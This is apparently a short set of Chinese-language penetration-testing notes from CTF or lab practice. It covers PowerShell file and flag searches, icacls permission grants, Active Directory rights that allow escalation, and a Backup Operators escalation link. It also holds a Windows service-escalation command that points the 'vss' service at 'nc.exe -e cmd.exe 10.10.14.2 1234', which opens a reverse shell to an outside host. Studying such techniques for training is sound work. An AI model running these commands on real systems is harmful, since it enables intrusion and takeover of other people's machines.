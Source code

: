 列出文件树：

```
Get-ChildItem -Recurse
```

文件查找：

```
Get-ChildItem -Path C:\ -Include *flag* -File -Recurse -ErrorAction SilentlyContinue
```

# windows本地提权

服务提权：

```
1、创建服务：
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2  1234"
2、开启服务：
sc.exe stop vss  
sc.exe start vss
```

## 权限赋予

```
授予权限：
icacls C:\path\to\your\directory /grant username:(permissions)
username: 要授予权限的用户名。
permissions: 要授予的权限。例如，F 表示完全控制，R 表示读取，W 表示写入等。可以使用多个字母组合，如 RW 表示读写权限。
```

# 域内提权注意权限：

```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

## BACKUP OPERATORS组提权

推荐

```
https://pentestlab.blog/2024/01/22/domain-escalation-backup-operator/
```

资料
